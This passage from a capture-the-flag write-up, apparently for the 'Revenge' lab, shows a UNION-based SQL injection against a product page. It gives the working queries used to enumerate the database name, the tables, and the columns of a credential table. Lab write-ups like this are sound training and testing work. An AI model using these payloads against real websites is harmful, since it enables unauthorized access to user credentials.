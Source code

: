 ![Columns](/assets/images/2021/08/Revenge/Columns.png "Columns")

From this I knew that the column 2 is used for the name, 8 for the description and 3 for the price. I could use columns 2 or 8 to extract text.

Now I could start extracting data from the database. First I wanted to know the database name.  The query  [20 UNION SELECT 1, database(), 3, 4, 5, 6, 7, 8](http://target.thm/products/20%20UNION%20SELECT%201,%20database(),%203,%204,%205,%206,%207,%208) returned the name `duckyinc`.

Next I extracted the list of tables in that database with '[20 UNION SELECT 1, table_name, 3, 4, 5, 6, 7, 8 FROM information_schema.TABLES Where table_schema = 'duckyinc' LIMIT 0, 1](http://target.thm/products/20%20UNION%20SELECT%201,%20table_name,%203,%204,%205,%206,%207,%208%20FROM%20information_schema.TABLES%20Where%20table_schema%20=%20'duckyinc'%20LIMIT%200,%201)'.

By extracting the tables one at the time with the limit clause, I found three tables: 
* product
* system_user
* user

The table product did not look too interesting, so I started extracting the names of the column in the `system_user` table. I used the query '[20 UNION SELECT 1, column_name, 3, 4, 5, 6, 7, 8 FROM information_schema.COLUMNS Where table_schema = 'duckyinc' and table_name = 'system_user' LIMIT 0, 1](http://target.thm/products/20%20UNION%20SELECT%201,%20column_name,%203,%204,%205,%206,%207,%208%20FROM%20information_schema.COLUMNS%20Where%20table_schema%20=%20'duckyinc'%20and%20table_name%20=%20'system_user'%20LIMIT%200,%201)' to get them.

It had four columns:
* id
* username
* _password
* email
